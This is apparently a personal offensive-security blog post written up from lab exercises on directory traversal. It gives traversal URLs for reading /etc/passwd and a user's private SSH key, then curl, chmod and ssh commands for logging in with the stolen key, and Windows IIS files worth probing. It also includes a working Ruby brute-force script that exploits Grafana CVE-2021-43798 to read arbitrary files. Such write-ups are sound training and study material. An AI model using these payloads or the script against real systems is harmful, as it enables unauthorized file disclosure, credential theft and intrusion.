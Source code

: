 ```yaml
---
layout: post
title: Directory Traversal Exploit
titledate: 08/27/23
tags: ["infosec","offsec", "web", "wordpress","exploit","shell","dir_traversal", "http", "curl", "ssh"]
---
```


#### Linux

When browsing a site we can hover over links to get an idea of the directory structure of the web application on the server.

Of course using tools like gobuster or feroxbuster can help us enumerate this dir structure easily, but it may be possible to perform directory traversal attack by traversing directories to try to access content outside of the web server

    $ http://vulnwebapp.com/home/index.php?page=../../../../../../../../../etc/passwd

You only need to give the minimum number of ../ to get to the root directory from the current working directory of the web page you are on, however, since there is no maximum we can just provide a large number of ../ to get to the root path

From the above command we can obtain a list of users on the system. With this information we learn about a user DON. We can try to find DON's ssh key with a typical directory layout 

    $ http://vulnwebapp.com/home/index.php?page=../../../../../../../../../home/DON/.ssh/id_rsa

If this request returns the private ssh key for don , we should use a different procedure to obtain the key as displaying content in the web browser can often get skewed as many characters may not be properly encoded. We can use wget, curl, or python/ruby to retrieve this information

    $ curl http://vulnwebapp.com/home/index.php?page=../../../../../../../../../home/DON/.ssh/id_rsa

Once we obtain the key we need to change the permissions on it because they are too open

    $ chmod 400 don_key

Now we can attempt to ssh to the machine hosting the vulnerable web server

    $ ssh -i don_key -p 2222 don@vulnwebapp.com

#### Windows

Windows is a little more difficult to obtain useable information than linux

    $ C:\Windows\System32\drivers\etc\hosts

This file should be accessible by all users and useful to try dir traversal attacks

### We can not reach useful ssh data like we do for Linux, but information disclosure can still be relevant depending on what directory contents we can disclose

    $ C:\inetpub\logs\LogFiles\W3SVC1
    $ C:\inetpub\wwwroot\web.config

The files above both contain information about the IIS server, so it is always worth probing the directories to see what we can find

#### Grafana Use Case

This exercise requires us to ty to use a dir traversal against Grafana. We are given the CVE (vulnerability), so we have to assume we would not know this information. To begin we would need to identify the Web App Grafana and version, or at the least the Software name (Grafana) and if it doesn' have a lot of publicaly disclosed vulnerabilities then we can fire from the hip and see what sticks

In this case as expressed we are given the CVE 2021-43798 , reading the NVD description we can already glean tons of info - the vuln is a dir path traversal in the /public/plugins//{plugin} directory. So while there are publicaly available exploits for this - we don't need them

First we need to identify what plugin is installed 
I began by running gobuster and feroxbuster against the plugins directory but they did not find anything... so we need to create a custom wordlist of plugins available to Grafana

    $ curl https://grafana.com/grafana/plugins/all-plugins/ -o plugins

This downloads plugins listed on their site from their all-plugins page in an html file

```ruby
data = File.open("/home/kali/plugins","r"){|f| f.read }
plugins = data.split('href=/grafana/plugins/')
# i started at 8 bc i could visibly see that's where the list starts
# with a bunch of garbage we don't care about above
plugins[8..-1].each do |plugin|
  name = plugin.split('/><div>')
  File.open("/home/kali/plugin_name","a"){|f|f.write("#{name[0]}\n")}
end
```

This gives us a line delimted list of 369 plugins to brute force with gobuster or feroxbuster
...

Unfortunately - After failing to get any useable response codes from requesting the above base uri + /public/plugins/{plugin} I have determined that you would need to try the traversal 1 at a time per plugin... this really goes sums up my earlier point that you need to know the version of the application and then look for the canned exploit. 

I could write a script to iterate through the plugins 1 at time that i already created, but it turns out searchsploit has an attack for this already

Looking at the python searchsploit script i can see that it chooses 1 plugin randomly? and does not seem to work well for this use case, so i wrote a small ruby script to use the line delimitted plugins file i scraped

```ruby
#!/usr/bin/env ruby
def pwn
  plugin_file = File.open("/home/kali/plugin_name","r") do |f|
    f.each_line { |line|
      line = line.chomp
      puts "trying #{line}"
      # public/plugins is the vulnerable root of the plugin we can understand from the NVD CVE disclosure -
      # sucks we can't get a useable response from directory fuzzing
      cmd = "curl --path-as-is http://#{ARGV[0]}/public/plugins/#{line}/../../../../../../../../../../../#{ARGV[1]}"
      puts "trying #{cmd}"
      system(cmd)
    }
  f.close
  end
end

if ARGV[0] == '-h' || ARGV[0] == '--help' || ARGV[0] == nil
  puts "[+] plugin_pwn.rb ip file"
  puts "[+] where ip is ipaddress"
  puts "[+] and file is file to read"
  exit
else
  puts "[+] probing.. #{ARGV[0]}"
  pwn
end
```

So to execute it 

    $ ruby plugin_pwn.rb 192.168.255.190:3000 Users/install.txt

Most likely this script won't be useable in the future.. from this exercise I learned that it won't be easy to identify file/directory structures always and that if there isn't enough available information on the vulnerability it will take TOO MUCH time .. so look for what's available and it will make modifying the attack easier
